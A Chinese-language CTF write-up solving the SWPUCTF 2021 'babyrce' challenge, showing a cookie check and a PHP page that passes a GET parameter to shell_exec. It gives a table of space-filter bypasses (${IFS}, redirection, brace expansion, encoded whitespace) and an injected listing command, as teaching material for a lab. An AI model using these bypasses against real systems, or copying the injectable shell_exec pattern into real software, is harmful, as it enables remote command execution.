


# [SWPUCTF 2021 新生赛]babyrce wp

进来先给一段 php 代码：
``` php
 <?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 小饼干最好吃啦！
```

要求一个 `$_COOKIE['admin']==1`。在 firefox 下，按 F12 进开发者工具，选择 Storage 项，侧边栏选择 cookie 内的一项，添加一个 admin ，值为 1。  



刷新页面之后页面变成：
```php
 <?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> rasalghul.php
```

我们进到 `rasalghul.php` 看看：

又是一段 php 代码：
``` php
<?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?>
```

最后有 shell_exec 执行 shell 命令，而 preg_match 匹配空格就 die。  
所以 url 的值不能带有空格。  
常见的绕过方法有:

| 方法 | 示例 | 说明 |
|------|------|------|
| `${IFS}` | `cat${IFS}flag.txt` | `IFS` 默认值为空格、制表符、换行符，shell 会将其解析为分隔符 |
| `$IFS$9` | `cat$IFS$9flag.txt` | 与 `${IFS}` 同理，`$9` 是占位符防止与后续字符粘连 |
| `$IFS$1` | `cat$IFS$1flag.txt` | 同上，`$1` 等空变量同样可作占位符 |
| `<` 重定向 | `cat<flag.txt` | 用输入重定向代替空格分隔命令和参数 |
| `<>` 重定向 | `cat<>flag.txt` | 读写重定向，效果同上 |
| `{cmd,arg}` | `{cat,flag.txt}` | bash brace expansion，展开后自动加空格 |
| `%09` (Tab) | `cat%09flag.txt` | URL 编码的制表符 `\t`，`preg_match` 只匹配空格不匹配 tab |
| `%0a` (换行) | `cat%0aflag.txt` | URL 编码的换行符 `\n` |
| `%0b` (垂直Tab) | `cat%0bflag.txt` | URL 编码的垂直制表符 `\v` |
| `%0c` (换页) | `cat%0cflag.txt` | URL 编码的换页符 `\f` |
| `%0d` (回车) | `cat%0dflag.txt` | URL 编码的回车符 `\r` |


url 是 GET 请求，在地址栏传参。  
```
/?url=ls$IFS$1/
```
查看根目录内容：
```
 bin boot dev etc flllllaaaaaaggggggg home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```

直接 `cat flllllaaaaaaggggggg` 即可。  




